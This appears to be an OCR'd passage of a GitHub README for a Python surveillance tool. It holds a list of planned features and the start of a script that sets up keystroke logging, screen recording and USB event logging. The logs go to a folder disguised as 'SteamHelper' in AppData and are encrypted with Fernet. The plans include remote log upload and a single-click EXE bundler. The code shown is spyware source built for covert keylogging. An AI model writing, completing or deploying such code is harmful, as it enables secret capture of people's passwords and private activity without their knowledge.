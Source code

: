 4. When interrupted (CTRL+C), all files are encrypted.

---

## 🛠️ Future Improvements
- Auto-detect/install Python if not present
- Create GUI setup wizard
- Add optional remote log upload or alerts
- One-click EXE builder script with PyInstaller

# - Add automated Python installer detection with subprocess or `os.system()`
# - Create EXE bundler version for single-click execution
# - Optionally add GUI for friendly user configuration

```python
import os
import cv2
import time
import psutil
import ctypes
import mss
import threading
from pynput import keyboard
from cryptography.fernet import Fernet

# === CONFIGURATION SECTION ===
# 🔧 Customize these values before running the script
ENCRYPTION_KEY = Fernet.generate_key()  # Replace this with your own saved 32-byte key for reuse
LOG_DIR = os.path.expanduser("~/AppData/Roaming/SteamHelper")
VIDEO_FILENAME = os.path.join(LOG_DIR, "screen_record.avi")
KEY_LOG_FILE = os.path.join(LOG_DIR, "keys.log")
USB_LOG_FILE = os.path.join(LOG_DIR, "usb_events.log")
VIDEO_FPS = 5.0
SCREEN_INTERVAL = 0.2
USB_POLL_RATE = 2
fernet = Fernet(ENCRYPTION_KEY)

# Allow user to select or define a base logging directory
USER_BASE_DIR = input("Enter a folder for log storage (e.g., ~/AppData/Roaming/SteamHelper): ").strip()
if not USER_BASE_DIR:
    USER_BASE_DIR = os.path.expanduser("~/AppData/Roaming/SteamHelper")
else:
    USER_BASE_DIR = os.path.expanduser(USER_BASE_DIR)

LOG_DIR = os.path.join(USER_BASE_DIR)
VIDEO_FILENAME = os.path.join(LOG_DIR, "recordings", "screen_record.avi")
KEY_LOG_FILE = os.path.join(LOG_DIR, "logs", "keys.log")
USB_LOG_FILE = os.path.join(LOG_DIR, "logs", "usb_events.log")

# Create necessary subdirectories
os.makedirs(os.path.dirname(VIDEO_FILENAME), exist_ok=True)
os.makedirs(os.path.dirname(KEY_LOG_FILE), exist_ok=True)
os.makedirs(os.path.dirname(USB_LOG_FILE), exist_ok=True)

def is_screen_locked():
    user32 = ctypes.windll.User32
    return user32.GetForegroundWindow() == 0
```